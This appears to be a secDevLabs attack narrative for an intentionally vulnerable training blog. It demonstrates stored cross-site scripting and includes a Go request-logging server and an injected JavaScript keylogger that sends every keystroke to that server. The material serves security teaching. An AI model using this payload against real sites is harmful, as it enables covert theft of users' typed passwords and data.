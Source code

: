 # Attack Narrative - Fofocando Blog (XSS)

The main goal of this documentation is to describe how a malicious user could exploit a Cross-Site Scripting vulnerability intentionally installed on Fofocando Blog from secDevLabs.

If you don't know [secDevLabs](https://github.com/globocom/secDevLabs) or this [intended vulnerable web application](https://github.com/globocom/secDevLabs/tree/master/owasp-top10-2017-apps/a7/fofocando) yet, you should check them before reading this narrative.

----

## 👀

After inspecting the application, it is possible to identify that some entries are not sanitized and can be  executed on web browser. It occurs on *search*, *comment* and *post* fields. The following images show this behavior when the text  **\<script>alert(1)\</script>** is used as an input on these fields.

Searching for a post:
   <img src="attack-1.png" align="center"/>
   <img src="attack-2.png" align="center"/>

Adding a new comment to a post:
   <img src="attack-3.png" align="center"/>
   <img src="attack-4.png" align="center"/>

Adding a new post:
   <img src="attack-5.png" align="center"/>
   <img src="attack-6.png" align="center"/>


The missing input validation allows a malicious user inserts some scripts that will be persisted in the server and can be executed on victims browsers every time they access the routes that contains these scripts.

Now we will demonstrate how to get all keyboard inputs from a user by persisting a malicious code in the server.

First, we create a simple API in golang that logs all received requests. The code is shown bellow:

   ```go
   package main

   import (
      "fmt"
      "github.com/labstack/echo"
   )

   func main() {
      e := echo.New()
      e.GET("/:k", handler)
      e.Logger.Fatal(e.Start(":1232"))
   }

   func handler(c echo.Context) error {
      fmt.Println(c.Request().RemoteAddr, c.Param("k"))
      return nil
   }
   ```

Now, we insert a new post through **/newgossip** route using the following code in text field:

```html
   <script>
   var k="";
   document.onkeypress=function() {
      k+=String.fromCharCode(window.event.keyCode);
      var i=new Image;
      i.src="http://localhost:1232/"+k;
   }
   </script>
```

This code implements a keylogger by capturing all keyboard inputs from user and send them to the API created before.

   <img src="attack-7.png" align="center"/>



When a victim access the post, the browser will interpret the text between the script tag as a code and will execute it secretly. This behavior is shown bellow.

In the first image, we are inserting some text in *comment* and *search* fields and the second image shows the server log containing all these inputs.


<img src="attack-8.png" align="center"/>

<img src="attack-9.png" align="center"/>
